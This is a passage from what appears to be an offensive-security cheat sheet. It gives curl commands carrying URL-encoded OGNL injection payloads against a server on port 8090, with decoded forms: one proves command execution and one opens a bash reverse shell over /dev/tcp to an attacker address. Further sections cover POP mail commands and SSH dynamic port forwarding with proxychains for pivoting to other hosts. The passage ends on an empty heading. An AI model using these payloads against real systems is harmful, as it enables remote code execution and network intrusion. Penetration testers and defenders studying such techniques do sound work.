 ```
curl -v http://10.0.0.28:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/r7%22%29%7D/
```

Above, the exploit is URL-encoded. The exploit encompasses everything from the start of the content location to the last instance of /. Decoded it looks like this:

```
${@java.lang.Runtime@getRuntime().exec("touch /tmp/r7")}
```

Reverse Shell:

```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

Decoded:

```
${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}
```

## POP Syntax

```
POP Commands:
  USER rosesecurity           Log in as "rosesecurity"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

## SSH Dynamic Port Forwarding

 Forwards one local port to multiple remote hosts; it is useful for accessing multiple systems.

 ```
 ssh -D 9000 RoseSecurity@pivot.machine
 ```

 Now, an attacker could utilize a SOCKS proxy or proxychains to access the systems.

 ```
 proxychains smbclient -L fileserver22
 ```

## Dominating Samba with pdbedit

